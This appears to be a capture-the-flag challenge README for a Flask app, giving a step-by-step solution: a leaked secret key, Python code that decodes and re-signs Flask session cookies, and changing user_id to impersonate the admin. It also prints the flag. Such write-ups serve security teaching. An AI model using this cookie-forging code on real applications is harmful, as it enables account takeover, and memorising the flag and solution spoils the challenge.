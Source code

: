 # Unchanged App Secrets

This is an application which is mostly boilerplate. It was initially intended to provide competitors with a copy of the application which they could stand up locally, however it turns out all you have to do in that case is stand up the application and copy the session cookie over. The challenge now requires at least figuring out how flask sessions work (or just finding this gist: https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)

# How to Solve

There are a few steps to solving this challenge.

1. Navigate to the 404 page, there you will find `MYFLASKAPP_SECRET Value: secret-key`.
1. Realize that the hint about flask being 512x better than rails means that the digest_method (on the next step) is sha512 instead of sha1 which is the default. That is the reason for the `BoilerplateSecureCookieSessionInterface` class below.
1. Paste the following into a python shell with flask installed (most of the code below is from the gist, with the `BoilerplateSecureCookieSessionInterface` as described above):

		from flask.sessions import SecureCookieSessionInterface
		from itsdangerous import URLSafeTimedSerializer
		import hashlib

		class BoilerplateSecureCookieSessionInterface(SecureCookieSessionInterface):
		    digest_method = staticmethod(hashlib.sha512)

		class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
			# Override method
			# Take secret_key instead of an instance of a Flask app
			def get_signing_serializer(self, secret_key):
				if not secret_key:
					return None
				signer_kwargs = dict(
					key_derivation=self.key_derivation,
					digest_method=self.digest_method
				)
				return URLSafeTimedSerializer(secret_key, salt=self.salt,
				                              serializer=self.serializer,
				                              signer_kwargs=signer_kwargs)

		def decodeFlaskCookie(secret_key, cookieValue):
			sscsi = SimpleSecureCookieSessionInterface()
			signingSerializer = sscsi.get_signing_serializer(secret_key)
			return signingSerializer.loads(cookieValue)

		# Keep in mind that flask uses unicode strings for the
		# dictionary keys
		def encodeFlaskCookie(secret_key, cookieDict):
			sscsi = SimpleSecureCookieSessionInterface()
			signingSerializer = sscsi.get_signing_serializer(secret_key)
			return signingSerializer.dumps(cookieDict)

1. Create a new account on the application and copy your session value.
1. Back on the python shell, run `decodeFlaskCookie('secret-key', <your session token here>)`, it will look something like `decodeFlaskCookie('secret-key', '.eJwlj0lqAzEQAP-isw_qRa2WP2PUGwmBBGbsU8jfPZAHFFX12x515PnR7s_jlbf2-Ix2bzxiFVJsojkNo8ci50IOdSZw1GRfIuEx0aQHFUYo1N5Bg3FowFoBkWTsCi6Vm5W4L92KMzMGWi2pXbTBtnSSMaHPEXBp2635edTj-fOV31ePMHWvyxu9bOFAZkUz24Vp2qcPkYTki3udefxPQPt7A_JOP5o.DbkblQ.zCMssdyQeSQaNfbN0REwFpGDlD8p2jgzOamNlbGXrKppm5zBkEr_s4Ao54Ay6JgTMP7BqmTOR0T8pwhDPbB1Cw')`.
1. The result of the previous command will look something like `{'_fresh': True, '_id': '45d9f23da3377b2d0d93c4f24d8c431c28e4c966dcd72b60d3f2dd81faad354258d199d1de3b4c81c6fea4834098a827eed52bf96faf3a1ba6036571075d13da', 'csrf_token': '6430cf1c2d0fb92524482bbbaf2eb807c566e1e4', 'user_id': '2'}`
1. Manipulate the `user_id` in the response to be `1`, allowing you to impersonate the admin user.
1. Run `encodeFlaskCookie('secret-key', {'_fresh': True, '_id': '45d9f23da3377b2d0d93c4f24d8c431c28e4c966dcd72b60d3f2dd81faad354258d199d1de3b4c81c6fea4834098a827eed52bf96faf3a1ba6036571075d13da', 'csrf_token': '6430cf1c2d0fb92524482bbbaf2eb807c566e1e4', 'user_id': '1'})` in order to generate a new session token.
1. Replace the session token in the browser with your new session token and refresh the page.
1. The flag will appear.

# Flag

MCA{give_me_my_session_back!}
